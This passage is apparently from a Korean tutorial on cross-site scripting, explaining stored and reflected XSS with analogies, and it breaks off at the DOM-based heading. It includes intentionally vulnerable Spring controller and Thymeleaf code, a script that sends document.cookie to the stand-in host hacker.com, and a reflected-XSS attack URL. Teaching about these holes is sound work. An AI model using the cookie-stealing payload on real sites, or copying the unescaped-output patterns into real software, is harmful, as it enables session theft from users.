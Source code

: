 #### 🔀 XSS의 3가지 유형 (비유 + 코드)

1. 🏪 Stored XSS (저장형) - "독이 든 음식"

   - **비유**: 피자가게 후기란에 독을 넣어놨는데, 그 후기를 보는 모든 사람이 중독됨
   - **실제 공격 코드**:
     ```java
     // ❌ 위험한 게시판 코드
     @PostMapping("/posts")
     public String createPost(@RequestParam String content) {
         Post post = new Post();
         post.setContent(content);  // 악성 스크립트가 그대로 저장됨!
         postRepository.save(post);
         return "redirect:/posts";
     }
     ```
   - **공격자가 입력하는 내용**:
     ```html
     좋은 상품이에요!
     <script>
       // 사용자 쿠키 정보를 해커 서버로 전송
       var cookie = document.cookie;
       fetch("http://hacker.com/steal?data=" + cookie);
     </script>
     ```
   - **결과**: 이 게시글을 보는 모든 사용자의 쿠키가 털림! 😱

2. 🔄 Reflected XSS (반사형) - "독이 든 편지"

   - **비유**: 악성 링크를 이메일로 보내서, 그 링크를 클릭한 사람만 피해
   - **취약한 검색 기능**:
     ```java
       // ❌ 위험한 검색 코드
       @GetMapping("/search")
       public String search(@RequestParam String query, Model model) {
           model.addAttribute("query", query);  // 사용자 입력이 그대로 출력됨!
           return "search-results";
       }
     ```
   - **템플릿 파일 (search-results.html)**:

     ```html
     <!-- ❌ 위험한 출력 -->
     <h2>검색어: <span th:utext="${query}"></span></h2>
     ```

   - **공격 URL**:

     ```
     https://shop.com/search?query=<script>alert('XSS 공격!')</script>
     ```

   - **결과**: 이 링크를 클릭한 사람의 브라우저에서 스크립트 실행! 😱

3. 📱 DOM-based XSS (DOM 기반) - "조작된 TV"
